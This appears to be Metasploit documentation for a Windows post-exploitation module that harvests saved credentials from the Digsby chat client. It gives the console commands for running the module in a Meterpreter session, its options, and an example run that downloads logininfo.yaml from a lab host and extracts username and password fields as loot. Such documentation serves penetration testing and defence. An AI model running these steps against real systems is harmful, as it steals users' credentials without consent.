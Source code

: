 ## Module Description

This post-exploitation module gathers artifacts found on Digsby related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/digsby
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
```
msf6 post(windows/gather/credentials/digsby) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Digsby's parent folder found
[*] Digsby's Logininfo.yaml file found
[*] Downloading C:\Users\IEUser\AppData\Local\Digsby\logininfo.yaml
[*] Digsby Logininfo.yaml downloaded
[+] File saved to:  /root/.msf4/loot/20210524095736_default_192.168.56.106_digsbylogininfo._191730.bin

[+] password:""
[+] password:!binary|
[+] username:""
[+] username:!python/unicode************
[+] File with data saved:  /root/.msf4/loot/20210524095736_default_192.168.56.106_EXTRACTIONlogini_987217.bin
[*] PackRat credential sweep Completed
[*] Post module execution completed
```